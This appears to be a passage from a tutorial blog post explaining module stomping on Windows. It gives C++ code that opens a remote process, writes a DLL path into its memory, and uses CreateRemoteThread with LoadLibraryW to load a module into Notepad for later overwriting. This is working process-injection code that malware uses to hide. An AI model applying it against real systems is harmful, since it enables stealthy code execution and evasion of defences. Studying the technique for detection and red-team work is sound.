 <iframe width="560" height="315" src="https://www.youtube.com/embed/zltO1EAQ6UM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

Walking through the Code - The Prologue
-

This one is very familiar to the average C/C++ code.  It's the standard commandline argument collection procedure and then passing the argument (the remote process' PID) into the 3rd parameter of `OpenProcess`
> In Short: We're opening a remote process with the PID we specify 😸  Pretty straight forward right?

```cpp
int main(int argc, char* argv[]) {
    if (argc < 2) {
        std::cerr << "Usage: " << argv[0] << " <pid>\n";
        return 1;
    }

    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if (!hProc) {
        std::cerr << "Failed to open process.\n";
        return 1;
    }
```

Load the DLL into the Remote Process
-

Next, we will load the DLL we specified below (CoreShell.dll) into our remote process.  I use Notepad in my demo.  Also you'll notice a slight discrepancy between the DLL used in the video versus the code in this blog post.  The DLL in the video was already loaded by Notepad so I needed to choose another one.  That's the shortend of it 😄

Okay, we will first allocate memory the size of our filepath + filename using `VirtualAllocEx`. Next, we write the filepath+filename string (`benignMod`) to that memory location we just allocated (`modPath`).  It looks like this!

<img width="1208" height="520" alt="image" src="https://github.com/user-attachments/assets/763a845f-5a06-408f-a639-1906f2b21e9e" />

<img width="1458" height="942" alt="image" src="https://github.com/user-attachments/assets/23d343a5-4249-43af-b388-5264b6502679" />

Next, we locate the address for LoadLibrary and pass the address of our DLL filepath (`modPath`) as a parameter when we call our CreateRemoteThread api.  Afterwards, Lo and behold, the DLL is alive and running in the remote process!

<img width="843" height="309" alt="image" src="https://github.com/user-attachments/assets/9f71a5b7-a209-49c3-9cdf-79ca653ded68" />


```cpp
 // Benign module for stomping
 const wchar_t* benignMod = L"C:\\Windows\\System32\\CoreShell.dll";
 void* modPath = VirtualAllocEx(hProc, nullptr, wcslen(benignMod) * sizeof(wchar_t) + sizeof(wchar_t),
     MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
 if (!modPath) {
     CloseHandle(hProc);
     return 1;
 }
 WriteProcessMemory(hProc, modPath, benignMod, wcslen(benignMod) * sizeof(wchar_t) + sizeof(wchar_t), nullptr);

 // Load the benign module remotely
 auto loadLib = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");
 HANDLE hLoadThread = CreateRemoteThread(hProc, nullptr, 0, loadLib, modPath, 0, nullptr);
```